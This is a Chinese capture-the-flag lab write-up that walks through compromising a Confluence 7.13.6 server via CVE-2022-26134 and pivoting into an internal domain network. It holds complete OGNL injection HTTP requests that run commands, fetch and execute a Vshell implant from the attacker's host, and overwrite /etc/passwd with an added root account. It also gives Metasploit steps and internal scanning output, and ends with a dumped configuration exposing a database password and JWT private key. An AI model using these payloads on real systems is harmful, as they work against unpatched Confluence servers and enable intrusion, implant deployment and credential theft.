# cyberstrikelab-lab11-先知社区

> **来源**: https://xz.aliyun.com/news/18559  
> **文章ID**: 18559

---

# 入口机器信息收集

```
172.3.3.13:22 open
172.3.3.13:3306 open
172.3.3.13:8090 open
172.3.3.13:8091 open
[*] alive ports len is: 4
start vulscan
[*] WebTitle http://172.3.3.13:8090    code:302 len:0      title:None 跳转url: http://172.3.3.13:8090/login.action?os_destination=%2Findex.action&permissionViolation=true
[*] WebTitle http://172.3.3.13:8091    code:204 len:0      title:None
[*] WebTitle http://172.3.3.13:8090/login.action?os_destination=%2Findex.action&permissionViolation=true code:200 len:37155  title:登录 - Confluence
[+] InfoScan http://172.3.3.13:8090/login.action?os_destination=%2Findex.action&permissionViolation=true [ATLASSIAN-Confluence]
```

开放了四个端口，访问8090发现是Confluence



Atlassian Confluence 7.13.6 ，根据版本号找到对应的CVE-2022-26134 Confluence OGNL RCE。

## CVE-2022-26134 Confluence OGNL RCE

```
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22whoami%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: 172.3.3.13:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```



这里可以读取/root/flag.txt，但是要把这台机器当作跳板机打内网还是要拿一下权限，有几种办法。

### 方法一

上线Vshell，这里的难点是在于编码，一个地方错了都会导致上线失败。

生成一个正向连接的客户端，开启172.3.3.13的8877端口



本地开一个http

```
python3 -m http.server 80
```

上传文件

```
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22curl%20http://172.16.233.2/y%20-o%20y%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: 172.3.3.13:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```



赋可执行权限

```
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22chmod%20+x%20y%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: 172.3.3.13:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```

运行客户端

```
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22./y%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: 172.3.3.13:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```



成功上线。

### 方法二

msf直接上线

```
msfconsole
search CVE-2022-26134
use 2
set rhosts 172.3.3.13
set target 1
set payload 10
set Autocheck false
set ForceExploit true
```



### 方法三

开了22端口，权限也是root，直接往/etc/passwd里面加一个用户连接

先读取/etc/passwd

```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
systemd-coredump:x:999:997:systemd Core Dumper:/:/sbin/nologin
systemd-resolve:x:193:193:systemd Resolver:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin
polkitd:x:998:996:User for polkitd:/:/sbin/nologin
unbound:x:997:993:Unbound DNS resolver:/etc/unbound:/sbin/nologin
libstoragemgmt:x:996:992:daemon account for libstoragemgmt:/var/run/lsm:/sbin/nologin
setroubleshoot:x:995:991::/var/lib/setroubleshoot:/sbin/nologin
cockpit-ws:x:994:990:User for cockpit web service:/nonexisting:/sbin/nologin
cockpit-wsinstance:x:993:989:User for cockpit-ws instances:/nonexisting:/sbin/nologin
sssd:x:992:988:User for sssd:/:/sbin/nologin
clevis:x:991:987:Clevis Decryption Framework unprivileged user:/var/cache/clevis:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
chrony:x:990:986::/var/lib/chrony:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
mysql:x:1000:1000::/home/mysql:/bin/bash
```

然后加一个用户即尾部追加下面内容

```
r00t:roK20XGbWEsSM:0:0:x:/root:/bin/bash
```

放到a文件里面，直接上传

```
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22curl%20http://172.16.233.2/a%20-o%20/etc/passwd%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: 172.3.3.13:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```

r00t:root连接即可



### 方法四

注入内存马

<https://github.com/BeichenDream/CVE-2022-26134-Godzilla-MEMSHELL>



协议头加上Connection: close



## Vshell搭建代理



# 内网信息收集

```
[root@localhost ~]# ./fscanPlus_amd64 -h 10.10.10.0/24

  ______                   _____  _
 |  ____|                 |  __ \| |
 | |__ ___  ___ __ _ _ __ | |__) | |_   _ ___
 |  __/ __|/ __/ _  |  _ \|  ___/| | | | / __|
 | |  \__ \ (_| (_| | | | | |    | | |_| \__ \
 |_|  |___/\___\__,_|_| |_|_|    |_|\__,_|___/
                     fscan version: 1.8.4 TeamdArk5 v1.0
start infoscan
(icmp) Target 10.10.10.22     is alive
(icmp) Target 10.10.10.5      is alive
(icmp) Target 10.10.10.66     is alive
[*] Icmp alive hosts len is: 3
10.10.10.5:88 open
10.10.10.22:3306 open
10.10.10.66:445 open
10.10.10.5:445 open
10.10.10.66:139 open
10.10.10.5:139 open
10.10.10.66:135 open
10.10.10.5:135 open
10.10.10.5:80 open
10.10.10.22:22 open
10.10.10.22:8091 open
10.10.10.22:8090 open
[*] alive ports len is: 12
start vulscan
[*] NetInfo
[*]10.10.10.66
   [->]cslab
   [->]10.10.10.66
[*] NetBios 10.10.10.5      DC                   Windows Server 2022 Standard 20348
[*] OsInfo 10.10.10.5   (Windows Server 2022 Standard 20348)
[*] OsInfo 10.10.10.66  (Windows Server 2016 Standard 14393)
[*] NetBios 10.10.10.66     cslab.cyberstrike.lab               Windows Server 2016 Standard 14393
[*] WebTitle http://10.10.10.22:8091   code:204 len:0      title:None
[*] NetInfo
[*]10.10.10.5
   [->]DC
   [->]10.10.10.5
[*] WebTitle http://10.10.10.22:8090   code:302 len:0      title:None 跳转url: http://10.10.10.22:8090/login.action?os_destination=%2Findex.action&permissionViolation=true
[*] WebTitle http://10.10.10.22:8090/login.action?os_destination=%2Findex.action&permissionViolation=true code:200 len:37155  title:登录 - Confluence
[*] WebTitle http://10.10.10.5         code:200 len:703    title:IIS Windows Server
[+] PocScan http://10.10.10.5 poc-yaml-active-directory-certsrv-detect
[+] InfoScan http://10.10.10.22:8090/login.action?os_destination=%2Findex.action&permissionViolation=true [ATLASSIAN-Confluence]
```

发现还有两台机器

```
10.10.10.5	DC
10.10.10.66	cslab
```

## Confluence后渗透

Confluence有数据库翻一下

参考:<https://blog.csdn.net/weixin_39251927/article/details/127883324>

定位到配置文件

```
[root@localhost ~]# find / -name confluence.cfg.xml
/data/wiki/confluence/shared-home/confluence.cfg.xml
/data/wiki/confluence/confluence.cfg.xml
[root@localhost ~]# cat /data/wiki/confluence/confluence.cfg.xml
<?xml version="1.0" encoding="UTF-8"?>

<confluence-configuration>
  <setupStep>complete</setupStep>
  <setupType>custom</setupType>
  <buildNumber>8703</buildNumber>
  <properties>
    <property name="admin.ui.allow.daily.backup.custom.location">false</property>
    <property name="admin.ui.allow.manual.backup.download">false</property>
    <property name="admin.ui.allow.site.support.email">false</property>
    <property name="atlassian.license.message">AAABgA0ODAoPeJxtUU1vozAQvftXIO2xIjXQAIlkaRPwtpEgSZuQ3eRm6CRYCwbZJl349UsJvbSV5 uL35Hkf82PfgBGz1sCugR/meDp3ZgYN94aN7SkKJDDNKxEyDeQdMXE/LqJXVjQDQ86sUIBCUJnk9 YAkouAl1/BqFDwDocBIWyPXulbz+/su5wVMeIU28sIEV7clX9isEucJyzS/AtGyARRUQvdvGjNek K7rfqZpOsmqEo0aT0zlJA7egl9PZdrFYNd8263a39p/9OrAs5M/p6Jb5M9rvY/D1yZ+ZnfyEMIlo cdjGtmP1/ZCyE12p5nUIMdkAxTdRPZtDWtWAgk2cUxfgtUiQr0hoUEwkQH9V3PZjl35MxN7/aDx7 yok0Src0bUZWd6DO7V8z5lhx0c7kFeQPb1c2jNzSw8nMzm5S5NuXYr+QnsAqd47slyMPew7jvWx8 nu9bSOznCn4fLOxqI919i3ZuilTkJtzonqcmBbqHZJvXI79D+mHK/0H7Oa5FzAsAhQuYZcnjQl9D MmNlMa6f1tdRt8sVQIUVnDQ9RBPBsMJ1wdKCAl7xVMCbcw=X02im</property>
    <property name="attachments.dir">${confluenceHome}/attachments</property>
    <property name="confluence.setup.locale">zh_CN</property>
    <property name="confluence.setup.server.id">BB29-PEVZ-UZ6B-EP6E</property>
    <property name="confluence.webapp.context.path"></property>
    <property name="hibernate.c3p0.acquire_increment">1</property>
    <property name="hibernate.c3p0.idle_test_period">100</property>
    <property name="hibernate.c3p0.max_size">60</property>
    <property name="hibernate.c3p0.max_statements">0</property>
    <property name="hibernate.c3p0.min_size">20</property>
    <property name="hibernate.c3p0.timeout">30</property>
    <property name="hibernate.c3p0.validate">true</property>
    <property name="hibernate.connection.driver_class">com.mysql.jdbc.Driver</property>
    <property name="hibernate.connection.isolation">2</property>
    <property name="hibernate.connection.password">confdsdgfd</property>
    <property name="hibernate.connection.url">jdbc:mysql://localhost/confluence</property>
    <property name="hibernate.connection.username">confluenceuser</property>
    <property name="hibernate.database.lower_non_ascii_supported">true</property>
    <property name="hibernate.dialect">com.atlassian.confluence.impl.hibernate.dialect.MySQLDialect</property>
    <property name="hibernate.setup">true</property>
    <property name="jwt.private.key">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</property>
    <property name="jwt.public.key">MIIBojANBgkqhkiG9w0BAQEFAAOCAY8AMIIBigKCAYEAsk9zn1dWb14rU4yHIMoGYMw14qZopFaW9jxF2t8o3LefYapZ7HJ5YJTCcDD6M9NO7n5BdG54CP68YCU/xL0heB0V7/qccDgBeym4MJTP8X+v6eWVYTFYNQ+I+VtsZfTwutM3e+J+0rvKdiyY5kHlmRclRul3d3XFNchI38oxE2Q1qh7MInHKbUcd6oqDj1zmZGiNDfGjF/yqkK6BasAAkg77sRh0mDEhEs+WgkPt+b1h5leI16XPpaev0IMEVyax3gAIU6pCoqDr9YtmzxbK0UZCyiV8zSbf/l/r9iL9I9B/HAQRJBwl0SpG7YVwNEG1uGctq+ByRwfMJHuMQ5NPELbih7kET7gEDMwaoBpcIBhCphJGS1hZJzY0x00xaUid9pmu6eCbP2uzTOyn3mXFHVrS7krknwO7oRC1PU8EWbeDBaA+1Sx8aF7gcxxaQWc+R6wk1wR97IWwZ3z5/AQNnAEGKesTXl29oCYAvJxCJSNc58f0ps42G/CEI2zFcLtfAgMBAAE=</property>
    <property name="lucene.index.dir">${localHome}/index</property>
    <property name="synchrony.encryption.disabled">true</property>
    <property name="synchrony.proxy.enabled">true</property>
    <property name="webwork.multipart.saveDir">${localHome}/temp</property>
  </properties>
</confluence-configuration>

```

找到数据库的账号密码

账号:confluenceuser

密码:confdsdgfd

